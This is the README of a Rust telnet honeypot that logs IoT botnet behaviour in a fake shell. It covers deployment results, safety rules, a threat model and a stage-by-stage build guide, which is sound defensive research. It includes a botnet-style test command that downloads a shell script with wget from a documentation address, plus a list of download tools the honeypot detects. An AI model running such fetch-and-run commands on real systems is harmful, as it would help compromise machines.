

# Rust Telnet Honeypot

By [Timothy Fletcher](https://timfletcher.tech)

A medium-interaction telnet honeypot written in Rust, run on Google Cloud for 86 hours to
record what IoT botnets do after they log in. 18 common factory-default logins get into a
shell that's entirely fake: every reply is fixed text compiled into the program, and nothing
a visitor sends is ever run or fetched. It was built stage by stage as a way to learn Rust,
and that guide is below, under "How it was built".

- **2,450 connections** from 364 IP addresses in 86 hours
- **481 fake-shell sessions** and 1,772 commands
- **13 download attempts** and **0 outbound connections** from the honeypot

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/images/funnel-dark.png">
  
</picture>

**Were these IPs already known?** I checked all 478 IPs that visited from Nov 2 to Nov 6
against AbuseIPDB. 472 had reports from the past year, at least 417 of them from before the
honeypot first saw them, and the other 6 had none in the past year. 3 of the 7 IPs that tried a
download had no reports until after they reached the honeypot, so an IP blocklist wouldn't have
stopped them when they arrived.

Read [the full report](README_REPORT.md) or visit [the project page](https://timfletcher.tech/honeypot/).

## How it was built

A small program that pretends to be a login prompt, a shell and other services, then
records what people try against it. It's for research only: the goal is to study
how new vulnerabilities get exploited, and to learn Rust along the way.

Each stage teaches a handful of Rust ideas. You write the code, and the tests tell
you when it works.

## Safety rules

These apply to every stage. If a change would break one of them, don't make it.

1. **Nothing is real, and nothing is ever run.** Every response is fake. Stage 7 lets
   some logins into a fake shell, but what people type there is only matched as text,
   and every reply is fixed text built into the program. There is never a real shell,
   and nothing an attacker sends is ever run. That includes commands, scripts and
   uploaded files.
2. **It never connects out.** The honeypot only listens. It never attacks or scans
   anyone and never hacks back. It also never follows a link or downloads a file
   that an attacker sends: those are recorded as text and nothing more. It only uses
   TCP, never UDP, and never relays traffic, so nobody can use it to attack someone
   else.
3. **Localhost only until Stage 6.** Develop and test on `127.0.0.1`. Before
   anything faces the internet, Stage 6 moves it to a separate cloud server, away
   from your home network, after checking the provider's terms. New fake services
   are still built and tested on localhost before they're deployed.
4. **Logs are sensitive.** They hold IP addresses and the passwords people try,
   and some of those may be real passwords. From Stage 7 they also hold the commands
   people type and the addresses they try to download from, which can include
   passwords and other people's servers. Keep logs out of git (`logs/` is ignored),
   readable only by you, and delete them when you no longer need them. Never publish
   raw logs, and never type your own real passwords when testing. Never run a command
   from the logs or open an address from them, even on your own computer.
5. **It never impersonates anyone.** Fake services stay generic, with no real
   company's name, logo or look, and nothing that lures people to them. A fake login
   that copies a real brand is phishing, even by accident.

## Threat model

The honeypot's job is to be attacked, so the question is what an attacker can get out of it.
The answer should stay "nothing": no way to run anything, no way to reach anyone else through
it, and no way to cost you much.

Stage 7 changes three things. Attackers used to get two prompts and a rejection, and now they
get a whole session, so much more of their text comes in. More of the program's replies go out,
and you pay for outbound traffic. And the logs now record what they tried to do, not only how
they tried to log in.

| What could go wrong | What stops it | How you'd notice |
| ------------------- | ------------- | ---------------- |
| A command really runs | Commands are only matched as text. `src/fake_shell.rs` can't reach files, programs or the network, and a test fails if that changes. On the server, nothing outside the program's own folder can be run at all | Another program running as the `honeypot` user, or a file it owns outside its logs |
| The server fetches something an attacker names | The code has no web client, name lookup or extra crate, and tests fail if one appears. A test aims every kind of download at a real listener and checks that nobody came. Both outbound firewalls stay exactly as they are | An `egress-blocked-honeypot` line, or a hit in Google's firewall log |
| An attacker's text gets sent back | Replies have the type `&'static str`, so the compiler refuses anything a visitor typed | The logs don't record replies, so this rests on the compiler and the tests |
| A session is held open to use up places | A session shares the visit's one 30-second deadline, for reading and for writing. The caps of 64 connections, 4 per IP and 60 visits a minute are unchanged | "Refused by the limits" climbing in the daily summary |
| Sessions fill the disk or push out other visits | Each session gets 200 lines and 64 KB of stored text. One IP gets 2 MB a day and all of them together 20 MB, and after that logins are rejected as they were before. The 100 MB daily log budget still applies | Disk use in the daily summary |
| Replies run up a bill | Each session gets 8 KB of replies, inside the same daily limits, which keep the shell within Free Tier's 1 GB a month. The daily summary also copies only the logs that changed | "Sent in the last 24 hours" in the daily summary, and the budget alert |
| A bug in the new code gets hit | Safe Rust only, with `unsafe` banned. A crash ends one visitor's thread and gives their place back. The worst case should be one lost log line | "Crashes during a visit" in the daily summary |
| Logs hold hostile commands, stolen passwords, pieces of malware and other people's servers | Everything is escaped before it's stored. The screen and the daily summary only show counts. `KEEP_DAYS` deletes them on the same schedule. Safety rule 4 covers the rest | Nothing warns you, so this rests on following rule 4 |
| The list of logins holds a real password | `deploy/host/credentials.txt` holds only common factory defaults, in git where you can read it | Reading the list before you deploy |
| Bots never reach the login | The shell opens with the same telnet negotiation many small devices send, and the answers are kept out of what the visitor typed. Ignored negotiation is a [known way to spot a honeypot](https://www.cl.cam.ac.uk/~amv42/papers/vetterl-clayton-bitter-harvest-woot-18-slides.pdf) | "Sent nothing at all" staying high in the daily summary |
| Visitors spot that it's fake | Nothing, and that's accepted. Replies are fixed and never repeat the command, so a bot that checks will often leave, and you'll see less. It can't cause harm | Sessions ending right after a check like `echo` or a made-up `busybox` command |
| Google objects, or local rules apply | The Stage 6 decisions covered storing IPs and passwords for a login that always says no. A login that says yes, and logging commands, are new, so they're decided again before deploying | An abuse report or a message from Google |

These haven't changed: the two outbound firewalls, admin access only through IAP, no service
account, the systemd sandbox, IPv4 only, and refusing to run as root.

## How to work through a stage

1. Open the stage's file and read it from top to bottom.
2. Find the next `todo!()` and replace it with your code.
3. Run that exercise's tests. The top of the stage's file shows the exact command.
4. Repeat until `cargo test` passes.

| Command          | What it does                                   |
| ---------------- | ---------------------------------------------- |
| `cargo test`     | Run every test                                 |
| `cargo test ex2` | Run only the tests with `ex2` in their name    |
| `cargo check`    | Check for errors quickly, without building     |
| `cargo run`      | Build and run the program                      |
| `cargo clippy`   | Suggest more idiomatic ways to write your code |
| `cargo fmt`      | Format your code in the standard Rust style    |

When you're stuck, ask Claude for a hint or a review rather than the answer.

## Trying it after Stage 5

1. Start it with `cargo run`. In a second terminal, connect with `nc 127.0.0.1 2323`.
2. Stop it, and try `cargo run -- --listen 0.0.0.0:2323`. It refuses to start. The `--`
   passes what follows to your program instead of to `cargo`. Don't add
   `--checklist-done` on your own computer. That flag is for the Stage 6 server.
3. Start it normally again, and in a second terminal run the flood test:
   `for i in $(seq 1 200); do nc -z 127.0.0.1 2323; done`. Then run
   `wc -l logs/visits-*.jsonl`. No more than 60 of those visits are logged each minute,
   and the first terminal reports the ones it refused.

The first terminal hides passwords and most of each IP address, and the log keeps the
full details. If other users can read a log, the program refuses to start.

Log files older than `KEEP_DAYS` (30 days, set in `src/log_files.rs`) are deleted
for good. Only files named exactly like `visits-2026-10-31.jsonl` are ever deleted.

## Trying it after Stage 7

This only needs your own computer, and the logins are made up.

1. Start it with `cargo run -- --credentials deploy/host/credentials.txt`. In a second terminal,
   connect with `nc 127.0.0.1 2323`. A few odd characters come first, which are the telnet opening
   that a real device sends too. A real `telnet` program should also work, but you won't see what
   you type, because the shell tells it not to show your typing and then never repeats anything.
2. Log in as `root` with the password `root`. Try `uname -a`, `cd /tmp; wget
   http://203.0.113.1/a.sh` and then `exit`. Nothing is fetched, and that address is reserved for
   documentation, so nobody's there anyway. You have 30 seconds from connecting, so be quick, or
   paste it all at once.
3. Run `tail -n 1 logs/visits-*.jsonl`. The commands and the address are there. The first terminal
   shows only how many there were.
4. Connect again, and log in as `root` with any other password. It's rejected, and the connection
   closes.
5. Stop it and start it with plain `cargo run`. Now `root` and `root` are rejected too, because
   the shell is off unless you ask for it.

## Roadmap

The honeypot goes live with only the fake login, so the least code possible faces the
internet at first. The other fake services follow one at a time.

### Before going live

- [x] **Stage 1: Fake login on localhost** (`src/login.rs`): `&str` views, cleaning
      hostile input, `Result`, the `?` operator, reading and writing, `TcpListener`
- [x] **Stage 2: Structured logs** (`src/visit.rs`): one JSON object per line with
      the time and source IP, for every visitor, including those who leave without
      typing. Adding crates, `serde` and `serde_json`, `Option`, handling a `Result`
      yourself, `if let`
- [x] **Stage 3: Protecting the logs** (`src/log_files.rs`): checking file
      permissions, a new file each day, deleting old logs automatically, hiding
      passwords and IPs on screen. Bit masks, making your own errors, `chrono`, `?` on
      an `Option`, enums that hold data
- [x] **Stage 4: Many connections at once** (`src/server.rs`): a thread for each
      visitor, one time limit for a whole visit, caps on connections overall and per
      IP, a daily budget for the log, keeping text sent without a newline. `Instant`,
      `HashMap`, `Drop`, `Arc` and `Mutex`, threads
- [x] **Stage 5: Ready to deploy** (`src/deploy.rs`): a setting for the listen address,
      with localhost as the default and a deliberate flag needed for anything else.
      Refusing to run as root. A limit on visits per IP each minute. Tests that fail if
      the code ever starts a program, connects out or uses UDP, and a compiler ban on
      `unsafe`. `.parse()`, `map_err`, `while let`, slicing text, `.any(...)`
- [x] **Stage 6: Going live on a Google Cloud e2-micro**: the only stage that faces the
      internet, and it's setup rather than Rust. Finish this whole checklist first.
      [`deploy/README.md`](deploy/README.md) has the commands, in order:
  - **Permission**
    - [x] Ask Google in writing whether a research honeypot is allowed, and say that it
          records IP addresses and the passwords people type. Their
          [Acceptable Use Policy](https://cloud.google.com/terms/aup) doesn't mention
          honeypots, but it bars anything "invasive" and items of a "deceptive nature".
          Without a paid [support plan](https://docs.cloud.google.com/support/docs/overview)
          you may not get an answer. Keep any reply. If the answer is no, use a different
          provider. If there's no answer, going ahead is your own decision and your own
          risk, so write down the date, what you read and why you went ahead
      - **2026-11-01, going ahead without an answer.** I asked Google support on 2026-10-31
        and never got a reply. I read the Acceptable Use Policy above. This is my own
        judgment and my own risk, and I accept that Google may close the account. It's a
        throwaway project, and the whole server can be rebuilt from Terraform
    - [x] Check the local rules for storing IP addresses and passwords, for both your
          country and the server's. Write down how long you'll keep them, and set
          `KEEP_DAYS` to match
      - **2026-11-01, keeping logs for 30 days.** `KEEP_DAYS` is 30. There was no
        country-by-country legal review. The decision rests on these safeguards, each
        checked that day against the running server and the code it was built from:
        - Logs stay private on the server: the folder is `0700` and the files `0600`, so
          only the `honeypot` user and root can read them, and the program refuses to start
          otherwise
        - Log files more than 30 days old are deleted, on the first visit of each new day
          and whenever the program starts
        - Passwords show as `(hidden)` in screen output, and the server discards that output
        - Logs never go into git: `.gitignore` covers them, none are in the history, and
          downloaded copies stay in `~/honeypot-logs`, outside the repo
  - **Isolation**
    - [x] Use a Google account and project with nothing else in them, a unique password
          and 2-Step Verification. No connection to your home network or other projects,
          and no real credentials or personal data on the server
    - [x] Set a budget alert. [Free Tier](https://docs.cloud.google.com/free/docs/free-cloud-features)
          covers the e2-micro, 30 GB of standard disk and 1 GB of outbound traffic a month.
          It doesn't cover the [public IP address](https://cloud.google.com/vpc/network-pricing),
          at about $3.60 a month. An alert warns you, but it doesn't stop the spending
    - [x] In Google Cloud's firewall, open only the fake service's port, plus the admin
          port from Google's IAP range alone
    - [x] Block outbound traffic twice: with a firewall rule, and on the server itself
          with `nftables`, allowing only replies to incoming connections and what the
          server needs from its own metadata server. Google's
          [firewall rules](https://docs.cloud.google.com/firewall/docs/firewalls) don't
          apply to that traffic. Install what you need first, then close both, and test
          each one alone to prove an outbound connection really fails
    - [x] Keep admin access separate from the fake services: an IAP tunnel, so the public
          IP shows no admin port, its own SSH key used nowhere else, and no password logins
    - [x] Give the server no service account, so it has no Google Cloud permissions
    - [x] Use IPv4 only. The program refuses to listen on IPv6
    - [x] Leave snapshots, flow logs and the Ops Agent off, so logs aren't copied somewhere
          your retention plan can't reach
  - **Running it**
    - [x] Install `cargo audit` with `cargo install cargo-audit`, run it on your own
          computer, and deal with anything it finds. Then build with
          `cargo build --release --target x86_64-unknown-linux-musl`, which runs on any
          x86-64 Linux server
    - [x] Upload the program and run it as an unprivileged user with no other access. Use
          `nftables` to forward the public port to 2323, instead of running it as root
    - [x] Run it under systemd with `--listen 0.0.0.0:2323 --checklist-done`. Set memory,
          CPU and task limits, no new privileges, a read-only filesystem except for
          `logs/`, and a restart if it fails
    - [x] Make sure the disk has room for `KEEP_DAYS` days of the daily log budget (3 GB
          by default), with space to spare
    - [x] Copy logs off by pulling them over admin access, so the server never sends
          anything out. Keep the copies private, and delete them on the same schedule
    - [x] To update the server, reinstall it from a fresh image instead of leaving outbound
          traffic open
  - **Stopping it**
    - [x] Practise your emergency stop before the port opens:
          `gcloud compute instances stop honeypot`, or Stop in the Cloud Console. It keeps
          the disk, so you can investigate afterwards. `terraform destroy` removes the
          server and its logs, and deleting the project ends everything for good
    - [x] Decide when you'll use it. Any outbound attempt by the honeypot, any other
          unexplained outbound traffic or an abuse report from Google means stop first and
          investigate afterwards
    - [x] Start with the fake login only, and check the logs for a day

### After going live

Build and test each of these on localhost. Anything that runs on the server is deployed
only once its tests and the safety checks pass.

- [ ] **Stage 7: A fake shell behind the login** (`src/fake_shell.rs`): logins from a list you
      choose get into a shell that's entirely made up, so you can see what people do after they
      log in. This makes it medium-interaction, but nothing is ever run. Reading a settings file,
      `&'static str`, `let ... else`, `flat_map`, `.find(...)`, `serde` attributes, implementing
      `Write` yourself, state machines
  - The login list is a file passed with `--credentials`. Without that flag the shell is off and
    every login is rejected, so the code can be finished and tested without changing the server
  - Commands are matched as text. Replies are fixed, and never repeat anything that was typed
    - **2026-11-03, why `echo SHELL_TEST` gets its own reply.** In the shell's first 30 minutes, one
      IP tried 21 different logins, once each and one at a time, and 11 of them got in. In each of
      those sessions it sent only `echo SHELL_TEST`, and the shell replied with a blank line (`\r\n`),
      the fixed reply to any `echo`. It hung up and went on to its next login, and tried no
      downloads. The hypothesis is that it was checking for `SHELL_TEST` to come back, didn't see it
      and decided this wasn't a real shell. That isn't proven, because a bot that only tests logins
      and reports them elsewhere would look the same. To test it, Exercise 13 gives that one exact
      command the fixed reply `SHELL_TEST\r\n`, which is still text built into the program, and any
      other `echo` still gets the blank line. If this bot sends more commands once it sees the word,
      the reply was the reason. If it still hangs up, it wasn't
  - Every command and download address goes in the visit's log line, with the same 30-day
    deletion. The screen and the daily summary show only how many there were
  - A download (`wget`, `curl`, `tftp`, `ftpget`, or a URL anywhere) gets a believable failure. The
    server never fetches anything, and the outbound block stays exactly as it is
  - A session shares the visit's deadline and takes one of the same places as any other visit. It
    also has its own limits on lines, stored text and replies, and running out of the day's
    budget only ever closes the shell
  - With the shell on, the server speaks telnet first, as a real device does. Answers are kept out
    of what the visitor typed, and go in the log as hex, because
    [exploits have been carried inside negotiation](https://www.labs.greynoise.io/grimoire/2026-01-22-f-around-and-find-out-18-hours-of-unsolicited-houseguests/).
    Nothing is sent in reply to them
    - **2026-11-02, why it opens with telnet.** In the first 3 hours, 119 of 130 visits sent nothing
      at all. Of those, 99 came from 4 IPs all doing the same thing: connect, stay silent for about 8
      seconds with `login: ` showing, hang up, wait about 5 seconds and try again, about 25 times.
      Only one visit sent anything like telnet negotiation, and that was a scanner's mainframe
      terminal probe. So they weren't asking for an answer. The likeliest reason is that they were
      waiting for the server to speak telnet first, but the logs can't prove that
  - **Before it goes on the server**
    - [x] Finish the exercises. `cargo test` passes, including the `guard_` tests, and `cargo
          clippy` and `cargo audit` have nothing new to say
    - [x] Try it on localhost, as described above
    - [x] Review all the changes. Nothing in this stage touches the server until you decide it does
    - [x] Finish Stage 6, including the day of checking the logs with the fake login only
    - [x] Decide again about Google's terms. What you asked them, and the decision written down in
          Stage 6, covered a login that always says no. A fake login that says yes and records
          commands is a bigger step towards "deceptive", so write down the date, what you read and
          why you're going ahead
      - **2026-11-02, going ahead without an answer.** I asked Google whether a research honeypot
        is allowed and got no reply. On 2026-11-02 I read Google Cloud's Acceptable Use Policy. I
        read "deceptive" as aimed at deceiving people, such as phishing, scams or impersonating a
        real organization. The honeypot only shows a fake login and shell to automated attackers who
        connect uninvited, and imitates no real company or person. My answer on "invasive" is that
        the honeypot only answers connections others start, and never contacts or probes anyone. The
        fake shell runs no commands, fetches nothing, and outbound traffic is blocked at two
        firewalls, so it can't connect out to anyone. I accept the risk that Google disagrees and
        closes the account, since the project is disposable and can be rebuilt from Terraform
    - [x] Decide again about the data. Commands and addresses can hold passwords and other people's
          details, and the Stage 6 decision only named IP addresses and passwords. Write down that
          you're keeping them for `KEEP_DAYS` days, and that there was no legal review if there
          wasn't one
      - **2026-11-02, keeping commands and addresses for 30 days.** Commands and download addresses
        are kept private on the server and on my machine for 30 days, then deleted. No legal review
        was done. Anything I publish (article, README, public repo) will contain only summaries and
        indicators such as malware URLs, attacker IPs and command patterns, never raw logs. Anything
        public masks IPs to two numbers and defangs URLs with credentials and query strings removed.
        The only reports go to AbuseIPDB, with the full IP, a category and a short comment with no
        log values. Searching URLhaus for a URL is fine, since that's a database lookup and doesn't
        open the address, but I never submit to it
    - [x] Read `deploy/host/credentials.txt`, and check that it holds only common factory defaults
  - **Deploying**
    - [x] Follow "Turning on the fake shell" in [`deploy/README.md`](deploy/README.md), which
          reinstalls the server. It keeps the port closed until the end
    - [x] On the server, check that nothing outside the program's folder can be run, and practise
          turning the shell off on its own, both before the port opens
    - [x] From outside, check that a listed login gets the shell, another login is rejected, a fake
          `wget` fails and is logged, and 22 and 2323 are still closed
    - [x] Check that outbound is still blocked with the shell on, and that the fake `wget` left no
          `egress-blocked-honeypot` line behind it. Leave `nftables` running for this. Step 5 turns
          it off for a moment, which is only safe while the port is closed
    - [x] Check the logs for a day, as you did for the fake login. Compare "Sent nothing at all" in
          the daily summary with the days before. If most visitors still send nothing, the opening
          wasn't the reason, and the shell will keep seeing very few logins
      - **2026-11-03, the baseline to compare against.** The last 24 hours of the fake login alone,
        as of 00:59 UTC: 520 visits from 117 IPs, and 425 of them (82%) sent nothing at all. The
        silent retry pattern line read 11 IPs and 241 visits, and all 11 only stayed silent. 81 tried
        a login, which also counts HTTP and binary probes. Google counted 3.8 MB sent, about 3 MB of
        which was a test send. If the opening works, those bots may log in straight away and drop out
        of the retry line, so read a fall in that line together with logins rising
      - **2026-11-06, the result.** The first 24 hours with the shell on, from 01:29:49 UTC on
        2026-11-03 and leaving out my own visits: 713 visits from 121 IPs, and 99 of them (14%)
        sent nothing at all, down from 82%. 533 answered the telnet opening and 123 got into the
        shell. The retry line read 0 IPs, but none of the 11 baseline retry IPs came back, even
        though the public IP stayed the same, so the opening is still untested on them. Leaving
        those 11 out of the baseline still gives 66% silent, and the 7 IPs seen both
        before and after went from 40% silent to 8%. The daily summary found nothing that needs
        stopping. From the opening to 2026-11-06 there were no restarts, crashes or program
        errors, no blocked outbound lines apart from the 1.1.1.1:443 self-test, no hits in
        Google's firewall log, and under 5 MB sent in any 24 hours
  - **Stopping it**
    - [x] Add these to the rules from Stage 6. Each one means stop first and investigate
          afterwards, and `deploy/daily-logs.sh` checks the first four:
      - Another program running as the `honeypot` user, which would mean something got run
      - A file owned by `honeypot` outside its logs folder
      - A crash during a visit, which means a visitor can reach a bug
      - The server sending more than 40 MB in the last 24 hours, which means a limit isn't working
      - A budget alert from Google
      - A command or address that seems to involve illegal material or someone's private data.
        Don't open it or copy it anywhere, and get advice before you decide what to do with the logs
    - [x] Any `egress-blocked-honeypot` line was already a reason to stop, and it now matters most
          of all: straight after a download in the logs, it would mean the program tried to do what
          it was told
- [ ] **Stage 8: A fake web service**: reading HTTP requests by hand and logging each one
      in full (method, path, headers and body), so you can spot attempts to exploit
      newly announced vulnerabilities. `Vec`, iterators, working with raw bytes.
  - Every reply is one fixed, generic page built into the program. It never serves files,
    repeats anything from the request, redirects or acts as a proxy
  - Requests have a size limit. Anything longer is cut off and marked, with its full
    size recorded. Each IP also gets a share of the daily log budget, so large requests
    from one source can't use it all up
  - Bodies are stored encoded, so payloads stay byte for byte and can't affect your
    terminal. Nothing in them is ever run, and links in them are never followed
  - The screen shows only the method and the escaped path, never headers or bodies
  - It starts with plain HTTP. Requests sent only over HTTPS won't be seen, because that
    needs a certificate and another crate, so it would be a later addition
  - Before opening the port, check that Google's answer covers full request logging. Open
    the port in both firewalls, and forward it to a port above 1024 instead of running as
    root
- [ ] **Stage 9: A report tool for your own computer**: a separate program that reads the
      logs you've downloaded, and is never uploaded to the server. Top usernames,
      passwords, commands, download addresses, paths and services, and what changed from day
      to day. A rules file you
      update by hand when a vulnerability is announced, matching paths, headers and
      bodies, showing when each rule was first and last seen and how many IPs it came
      from. It can only look back as far as the logs you've kept. `HashMap`, sorting,
      reading JSON back.
  - It treats logs as hostile: plain text output only, with everything escaped
  - It never connects to anything, so no looking up IPs and no opening links
  - Passwords and IPs are hidden by default
  - Downloaded logs follow safety rule 4 on your computer too: a private folder, out of
    git and cloud sync, and deleted on the same schedule
- [ ] **Stage 10: More fake services**: a `FakeService` trait, plus fixed banners and
      prompts for FTP and SSH (the version banner only), all sharing the same limits.
      Your own traits and enums
